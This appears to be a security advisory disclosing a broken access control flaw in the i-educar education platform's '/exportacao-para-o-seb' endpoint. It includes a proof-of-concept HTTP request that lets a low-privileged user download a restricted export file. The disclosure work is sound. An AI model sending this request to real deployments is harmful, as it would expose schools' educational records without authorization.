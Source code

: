 # Broken Access Control  in `/exportacao-para-o-seb` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/exportacao-para-o-seb` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `POST /exportacao-para-o-seb`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/a2f1c4a8-6bcd-4d7a-a847-828b52d44ce8" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/8e39d5e0-9a02-4eef-a462-e9aae51eba42" />

    
2. Send the following request::

```
POST /exportacao-para-o-seb HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/exportacao-para-o-seb
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

ano=2025&ref_cod_instituicao=1&ref_cod_escola=4
```
    
3. We could observe that a file is attached to the response. This user shouldn't do this request.

<img width="1434" height="538" alt="Pasted image 20250821191236" src="https://github.com/user-attachments/assets/b2146be9-5a52-4317-b24b-9ecb04939b54" />

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

This vulnerability falls under **OWASP Top 10 - A01:2021 Broken Access Control**  
🔗 OWASP Documentation

